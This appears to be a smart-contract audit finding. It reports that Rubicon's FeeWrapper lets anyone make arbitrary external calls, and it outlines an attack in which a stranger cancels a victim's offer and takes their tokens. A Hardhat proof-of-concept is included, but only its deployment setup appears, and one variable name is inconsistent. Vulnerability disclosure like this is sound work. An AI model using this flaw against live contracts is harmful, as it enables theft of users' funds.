 As seen in the `FeeWrapper`, it's possible for anyone to make the `FeeWrapper` call any function of any contract with any arguments, through [rubicall](https://github.com/code-423n4/2023-04-rubicon/blob/main/contracts/utilities/FeeWrapper.sol#L66). For example, we can call `offer` and `cancel` (of `RubiconMarket`) and even `transfer`/`transferFrom` (of any ERC20 token) on its behalf.

### Exploit 1 - 3rd party calls `RubiconMarket` through the `FeeWrapper`

This exploit has a victim and an attacker, the victim invests his tokens through some 3rd party that uses the `FeeWrapper`
by creating an offer. Then the attacker calls the `FeeWrapper` directly, and cancels the victim's offer, taking all his
tokens.

We modified the `fee-wrapper.ts` test. The setup is almost identical, only we added a `victim` and an `attacker`, and
modified the `pepeFinance` to use our example 3rd party.

```
import { loadFixture } from "@nomicfoundation/hardhat-network-helpers";
import { parseUnits } from "ethers/lib/utils";
import { ethers } from "hardhat";
const { expect } = require("chai");

describe("Fee Wrapper", function () {
  const FEE_TO = "0x0000000000000000000000000000000000000FEE";

  async function deployRubiProtocolFixture() {
    // Contracts are deployed using the first signer/account by default
    const [owner, otherAccount, testMaker, attacker, victim] = await ethers.getSigners();

    const WETH = await ethers.getContractFactory("WETH9");
    const weth = await WETH.deploy();

    const testCoinFactory = await ethers.getContractFactory("TokenWithFaucet");
    const testCoin = await testCoinFactory.deploy(
      owner.address,
      "Test",
      "TEST",
      18
    );
    const testStableCoin = await testCoinFactory.deploy(
      owner.address,
      "Test Stablecoin",
      "TUSDC",
      6
    );

    const ComptrollerFactory = await ethers.getContractFactory("Comptroller");
    const comptroller = await ComptrollerFactory.deploy(); // TODO: Rename to bath house?

    const interestRateModelFacStory = await ethers.getContractFactory(
      "WhitePaperInterestRateModel"
    );

    // Inputs
    const baseRatePerYear = parseUnits("0.3"); //  TODO: WHAT SHOULD THIS BE?
    const multiplierPerYear = parseUnits("0.02"); //  TODO: WHAT SHOULD THIS BE?
    const irModel = await interestRateModelFactory.deploy(
      baseRatePerYear,
      multiplierPerYear
    );

    const cTokenFactory = await ethers.getContractFactory("CErc20Delegate");
    const cTokenImplementation = await cTokenFactory.deploy();
```